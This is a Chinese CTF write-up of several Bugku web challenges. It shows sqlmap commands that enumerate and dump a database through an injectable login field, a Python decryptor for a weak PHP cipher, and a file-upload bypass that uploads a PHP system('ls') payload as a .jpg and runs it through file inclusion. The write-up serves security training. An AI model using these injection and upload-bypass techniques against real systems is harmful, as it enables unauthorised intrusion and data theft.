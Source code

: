 web部分的37-50题

# 这是一个神奇的登陆框

首先进行抓包，如上图所示，输入admin和123456，保存为1.txt，放在 E:\杂\c加加 目录下，然后用`sqlmap`进行注入。

```bash
# 使用下面的命令爆破出了数据库名称为 bugkusql1
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -p admin_name --dbs

# 结果
available databases [2]:
[*] bugkusql1
[*] information_schema
```

```bash
# 使用下面的命令进行爆表
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -p admin_name --tables

# 结果
Database: bugkusql1
[2 tables]
+--------+
| flag1  |
| whoami |
+--------+
```

```bash
# 使用下面的命令爆列名
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -T flag1 -p admin_name --columns

# 结果
Database: bugkusql1
Table: flag1
[1 column]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag1  | varchar(50) |
+--------+-------------+
```

```bash
# 使用下面的命令查字段

sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -T flag1 -C flag1 -p admin_name --dump

# 结果
Database: bugkusql1
Table: flag1
[1 entry]
+----------------------------------+
| flag1                            |
+----------------------------------+
| ed6b28e684817d9efcaf802979e57aea |
+----------------------------------+
```

爆出了flag。

# PHP_encrypt_1(ISCCCTF)

题目给了一段密文：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

还有一个压缩包，解压后发现了下面的php代码

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

写出相应的脚本如下，运行下面的解密代码即可得到flag

```python
import base64
import hashlib


def decrypt(b64):
    b64 = str(base64.b64decode(b64), encoding='utf8')  # base64转换后是byte类型数据
    key = 'ISCC'
    m = hashlib.md5()
    m.update(key.encode())
    md = m.hexdigest()
    b64_len = len(b64)
    x = 0
    char = ''
    for i in range(b64_len):  # strlen($str)==strlen($char)==strlen($data)
        if x == len(md):
            x = 0
        char += md[x]
        x += 1
    data = ''
    # 也可不进行正负判断：data += chr((ord(b64[i]) - ord(char[i])+128) % 128)
    for i in range(b64_len):
        d = ord(b64[i]) - ord(char[i])
        if d > 0:  # 进行判断，如果相减小于0，说明需要加上128
            data += chr(d)
        else:
            data += chr(d + 128)
    print(data)


if __name__ == "__main__":
    b64 = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA='
    decrypt(b64)

```

# 文件包含2

查看源码，发现注释中有 upload.php 的提示，于是打开 http://123.206.31.85:49166/upload.php，发现是文件上传。

在php文件里写入 `<script language=php>system("ls")</script>` ，列当前目录，修改后缀名为jpg,如1.php;.jpg,上传成功，如下图所示：

![文件包含2](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB2.png)

访问 http://123.206.31.85:49166/index.php?file=upload/201911191206089664.jpg，提示我们：about hello.php index.php this_is_th3_F14g_154f65sd4g35f4d6f43.txt upload upload.php。

然后访问 http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt，得到flag

# sql注入2

题目网站：http://123.206.87.240:8007/web2/

直接在后面加上 flag，即http://123.206.87.240:8007/web2/flag，然后下载了一个文件结果就是flag，但是不知道是什么原因，御剑没有扫出来。

# Trim的日记本

使用御剑扫描出来下面的结果，然后打开发现flag，竟然真的是flag

![Trim的日记本](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/Trim%E7%9A%84%E6%97%A5%E8%AE%B0%E6%9C%AC.png)